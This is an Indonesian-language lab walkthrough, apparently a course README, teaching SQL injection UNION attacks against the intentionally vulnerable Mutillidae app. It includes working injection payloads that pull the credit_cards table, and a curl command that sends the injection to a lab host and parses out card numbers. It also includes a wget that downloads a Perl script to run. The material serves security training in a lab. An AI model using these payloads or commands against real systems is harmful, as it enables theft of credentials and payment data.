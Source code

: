 # SQL Injection Union Exploit #1

## Database Practice

1. Masuk ke mysql dengan menjalankan command
```
mysql -u root
```
![1](/lesson8/1.png)

2. Gunakan database ```owasp10``` dan lihat semua sabel yang tersedia
```
mysql> use owasp10;
mysql> show tables;
```
![1](/lesson8/2.png)

3. Lihat deskripsi dari tabel ```accounts``` dan ```credit_cards```
```
mysql> desc accounts;
mysql> desc credit_cards;
```
![1](/lesson8/3.png)

4. Gunakan union untuk menempelkan tabel ```credit_cards``` dengan tabel ```accounts```
```
select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards
```
![1](/lesson8/4.png)
![1](/lesson8/5.png)

## Try SQLi Union Mutillidae

1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson8/6.png)

2. Setting proxy agar dapat ditangkap oleh Burpsuite dengan host ```127.0.0.1``` dan port ```8080```
![1](/lesson8/7.png)

3. Buka program Burpsuite
![1](/lesson8/8.png)

4. Pastikan option pada tab proxy (di section proxy listener) terdaftar alamat ```127.0.0.1``` dan portnya adalah ```8080```
![1](/lesson8/11.png)

5. Pastikan juga intercept pada tab proxy menunjukkan bahwa intercept nya dimatikan ```intercept is off```
![1](/lesson8/12.png)

6. kembali ke halaman user-info. kita akan melihat form login. inspect elemnet pada kolom ```name``` tambahkan size menjadi 100 ```size="100"``` dan masukkan syntax sqli ke kolom ```name```
```
' union select null-- '
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson8/13.png)

7. Setelah melewati form login kita akan menemukan error yang mengatakan query yang digunakan mempunyai jumlah kolom yang berbeda
![1](/lesson8/14.png)

8. kembali lagi ke halaman login lalu kita coba dengan menambah jumlah kolom. misal kita coba dengan 5 kolom.
```
' union select null,null,null,null,null-- '
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson8/15.png)

9. Setelah melakukan sqli union dengan 5 kolom maka kita lihat tidak ada pesan error. dan halaman tersebut memunculkan string ```username```, ```password``` dan ```signature``` yang menandakan bahwa kolom yang tersedia dan ditampilkan adalah kolom tersebut.
![1](/lesson8/16.png)

10. Lakukan kembali sqli union pada halaman login dengan cara mengganti null dengan string apapun. misal:
```
' union select 1,2,3,4,5--
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson8/17.png)

11. Setelah melewati halaman login, bisa dilihat bahwa yang di print adalah kolom urutan ke 2,3 dan 4 pada tabel ```account```
![1](/lesson8/18.png)

12. Setelah mengetahui struktur query yang digunakan pada form login, maka saatnya kita melakukan sqli yang sebenarnya dengan menggabungkan tabel ```account``` dan ```credit_cards```
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards--
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson8/19.png)

13. Dapat dilihat disitu kita mendapatkan info dari tabel ```credit_cards```
![1](/lesson8/20.png)

14. Buka Burpsuite dan lihat request terakhir. yang mengandung sqli union yang terakhir kita lakukan.
![1](/lesson8/21.png)

15. setelah itu lakukan curl untuk mendapatkan data tersebut via terminal dengan menggunakan command:
```
curl -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.156/mutillidae/index.php" --cookie= <cookie yang terdapat pada paket request terakhir>| grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
![1](/lesson8/22.png)

16. Lakukan perl parser dengan mendownload script
```
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
```
jalankan script tersebut
![1](/lesson8/23.png)
